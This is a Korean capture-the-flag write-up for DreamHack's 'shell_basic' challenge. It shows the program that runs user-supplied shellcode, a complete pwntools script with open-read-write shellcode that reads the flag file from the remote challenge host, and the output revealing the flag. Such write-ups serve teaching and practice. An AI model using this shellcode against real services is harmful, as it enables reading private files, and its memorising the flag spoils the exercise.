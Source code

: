 # [DreamHack] shell_basic

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 입력한 셸코드를 실행하는 프로그램입니다.
> `main` 함수가 아닌 다른 함수들은 execve, execveat 시스템 콜을 사용하지 못하도록 하며, 풀이와 관련이 없는 함수입니다.
> flag 위치와 이름은 `/home/shell_basic/flag_name_is_loooooong`입니다.
>
> Release: [shell_basic.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8546863/shell_basic.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/159448603-e993ffa8-df48-4b16-8932-bb2afed612e6.png)

## Analysis

```c
void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

`mmap()`으로 read, write, execute 권한이 있는 `0x1000`바이트 크기의 영역을 할당하고, 그 영역에 셸코드를 입력받을 수 있다. `execve()`와 `execveat()` 시스템 콜을 사용할 수 없으니 ORW로 플래그 파일의 내용을 읽어와야 한다.

## Exploit

시나리오는 다음과 같다.

1. 셸코드에서 충분히 뒤쪽(시작 주소 + `0x500`)에 플래그 파일 이름을 적어둔다.
2. `rip`를 참조하여 플래그 파일 이름의 주소를 `rdi`에 넣는다.
3. `open()` 시스템 콜로 플래그 파일을 연다.
4. `rdi`에 저장된 플래그 파일 이름의 주소를 `rsi`로 옮긴다.
5. `read()` 시스템 콜로 그 주소에 플래그 파일의 내용을 읽어온다.
6. `write()` 시스템 콜로 플래그 파일의 내용을 출력한다.

```python
from pwn import *
context(arch='amd64')

REMOTE = True

if not REMOTE:
    r = process('./release/shell_basic')
else:
    r = remote('host3.dreamhack.games', 23569)

flag_filename = b'/home/shell_basic/flag_name_is_loooooong'

# open(flag_filename, 0, 0)
shellcode = '''
lea rdi, [rip + 0x4f9]
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall
'''

# read(flag_fd, buf, 0x100)
shellcode += '''
mov rsi, rdi
mov rdi, rax
mov rdx, 0x100
xor rax, rax
syscall
'''

# write(1, buf, 0x100)
shellcode += '''
mov rdi, 1
mov rax, 1
syscall
'''

shellcode = asm(shellcode).ljust(0x500, b'\x90') + flag_filename

r.sendafter('shellcode: ', shellcode)

r.interactive()
```

```bash
python3 solve.py
```

```
[+] Opening connection to host3.dreamhack.games on port 23569: Done
[*] Switching to interactive mode
DH{ca562d7cf1db6c55cb11c4ec350a3c0b}
ong\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
$
```

